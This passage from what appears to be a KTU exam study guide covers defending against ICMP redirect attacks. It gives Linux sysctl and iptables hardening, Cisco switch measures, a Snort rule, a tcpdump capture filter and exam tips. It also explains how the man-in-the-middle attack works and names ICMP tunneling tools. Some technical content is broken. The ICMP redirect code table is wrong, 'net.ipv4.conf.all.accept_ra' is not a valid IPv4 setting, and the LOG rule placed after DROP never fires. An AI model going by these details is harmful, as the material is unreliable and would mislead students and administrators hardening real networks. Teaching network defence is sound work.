sysctl -w net.ipv4.conf.default.accept_redirects=0

# 2. Disable ICMP Router Advertisements
sysctl -w net.ipv4.conf.all.accept_ra=0

# 3. Block incoming ICMP Type 5 at the firewall
iptables -A INPUT -p icmp --icmp-type redirect -j DROP
iptables -A INPUT -p icmp --icmp-type redirect -j LOG --log-prefix "ICMP_REDIR: "

# 4. Stop forwarding if any rogue host is forwarding traffic
sysctl -w net.ipv4.ip_forward=0
```

**[1 Mark] — Phase 3: Eradication (Network Devices):**

* On Cisco switches, enable **Dynamic ARP Inspection (DAI)**.
* Configure **DHCP Snooping** to prevent rogue DHCP/IRDP servers.
* Run `no ip redirects` on all user-facing router interfaces.

**[1 Mark] — Phase 4: Recovery:**

* Flush poisoned routing tables on affected hosts:
  `ip route flush cache`
* Restore network connectivity in stages.
* Monitor for re-occurrence with IDS alerts.

**[1 Mark] — Phase 5: Lessons Learned & Documentation:**

* Update security policy to enforce hardened sysctl defaults via configuration management (Ansible/Puppet).
* Conduct a post-incident review meeting within 7 days.
* Add a Snort rule: `alert icmp any any -> any any (itype:5; msg:"ICMP Redirect detected"; sid:1000001; rev:1;)`
* Schedule annual network security awareness training.

---

> [!WARNING]
> **KTU Examiner's Valuation Warning — Common Pitfalls:**
> 1. **Do not confuse ICMP Types 5, 9, and 10.** Examiners specifically test this — write the Type number explicitly in answers.
> 2. **Do not skip the "RFC 1122 same-subnet" condition** when explaining Redirects. It is a guaranteed 1-2 mark item.
> 3. **Always include the Checksum and "New Gateway" field** when describing the ICMP Redirect structure — omitting the 32-bit New Gateway field loses 1 mark.
> 4. **For the attack steps, write the actual Scapy or iptables command** — purely narrative answers without a command/snippet lose the "Apply" marks.
> 5. **In diagrams, label every IP address and interface** — a diagram without IP labels is treated as incomplete.

---

### 5.3 Topic Recap & Important Things to Remember

* ✅ **ICMP = Network Layer protocol, IP Protocol Number 1.** It is **not** TCP or UDP.
* ✅ **ICMP Redirect uses Type = 5.** Codes 1 and 3 are the most weaponized.
* ✅ **The "New Gateway" 32-bit field in the ICMP header is the attacker's IP** — this is the single most important field to remember.
* ✅ **RFC 1122 requires the new gateway to be on the same subnet** as the victim, but most OS kernels do not strictly enforce this — that is the vulnerability.
* ✅ **ICMP Redirect attack = Man-in-the-Middle via routing cache poisoning.** It needs the attacker to enable `ip_forward=1` to be stealthy.
* ✅ **ICMP Redirect (Type 5) ≠ IRDP (Types 9/10).** Redirect *corrects* a route; IRDP *announces* a default gateway.
* ✅ **ICMP Tunneling (icmpsh, PingPull, ICMPDoor)** is a modern APT technique that bypasses port-based firewalls by encapsulating data inside Echo Request/Reply payloads.
* ✅ **Defenses:** `accept_redirects=0` (Linux), `EnableICMPRedirect=0` (Windows), `no ip redirects` (Cisco), plus IDS/IPS signatures.
* ✅ **Detection IoCs:** Unexpected gateway in `ip route get`, asymmetric traceroute hops, IDS alerts on Type 5, sudden latency spikes.
* ✅ **Forensic capture command:** `tcpdump -i eth0 -w evidence.pcap 'icmp[0] == 5'` — the byte offset `0` in the ICMP header is the **Type** field.
* ✅ **Remember the four key Codes:** 1=Host, 2=TOS+Host, 3=Network, 4=TOS+Network.
* ✅ **Default Linux host route cache TTL ≈ 600 seconds** — the poison is temporary, so attackers usually re-send periodically.
* ✅ **KTU Exam Tip:** Always cite **RFC 1122** and the specific ICMP Type/Code — examiners reward precise protocol knowledge.

<!-- SECTION_5_END -->
